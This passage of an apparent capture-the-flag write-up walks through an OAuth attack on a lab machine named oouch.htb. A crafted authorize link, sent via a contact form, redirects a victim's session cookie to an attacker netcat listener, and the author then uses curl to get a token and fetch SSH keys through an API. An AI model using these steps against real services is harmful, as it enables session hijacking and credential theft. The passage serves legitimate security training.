 If we navigate to authorization.oouch.htb:8000/oauth/authorize we can log in with the credentials in dev_access.txt.

This takes us to a page that allows us to register a new application. So I register a new application, making a note of the clientID and Client Secret.

```
ClientId: raJLWuJstNTX1etAwn64hSg2BiVYyI7LGMVBJ4Xk

Client Secret: exo6Yrof5DE14jc4jmdYM3aJE22UlEQqZuwFY2DTYg2JWef4qRUCc2caLianx5GOOaF0NDnJfIUJvAfiXpuamxMv7Tn4BBvseBhx5GNV9w7se45oSa3xpDe2LA7GiirO
```

I set Client type to public and authorization grant type to Authorization Code, and the redirect url to my ip, http://10.10.14.53:9001.

We can the send the following link via the contact page.

```
http://authorization.oouch.htb:8000/oauth/authorize/?client_id=raJLWuJstNTX1etAwn64hSg2BiVYyI7LGMVBJ4Xk&redirect_uri=http://10.10.14.53:9001&grant_type=authorization_code&client_secret=exo6Yrof5DE14jc4jmdYM3aJE22UlEQqZuwFY2DTYg2JWef4qRUCc2caLianx5GOOaF0NDnJfIUJvAfiXpuamxMv7Tn4BBvseBhx5GNV9w7se45oSa3xpDe2LA7GiirO
```

Listening on port 9001 with nc, we get a cookie!

```bash
listening on [any] 9001 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.177] 47610
GET /?error=invalid_request&error_description=Missing+response_type+parameter. HTTP/1.1
Host: 10.10.14.53:9001
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: sessionid=fi4v1qnvk1knx2e6xwc39h0k4xn553pp;
```

We can continue the authorization process:

```bash
curl -X POST 'http://authorization.oouch.htb:8000/oauth/token/' -H "Content-Type: application/x-www-form-urlencoded" --data "grant_type=client_credentials&client_id=raJLWuJstNTX1etAwn64hSg2BiVYyI7LGMVBJ4Xk&client_secret=exo6Yrof5DE14jc4jmdYM3aJE22UlEQqZuwFY2DTYg2JWef4qRUCc2caLianx5GOOaF0NDnJfIUJvAfiXpuamxMv7Tn4BBvseBhx5GNV9w7se45oSa3xpDe2LA7GiirO" -L -s
```

And we get back an access token.

```
{"access_token": "s4nQEuR9zdEjuwYSev1ujxTpWTcx23", "expires_in": 600, "token_type": "Bearer", "scope": "read write"}
```

We can now use this access token to call get_ssh from the api.

```bash
http://authorization.oouch.htb:8000/api/get_ssh/?access_token=s4nQEuR9zdEjuwYSev1ujxTpWTcx23
```
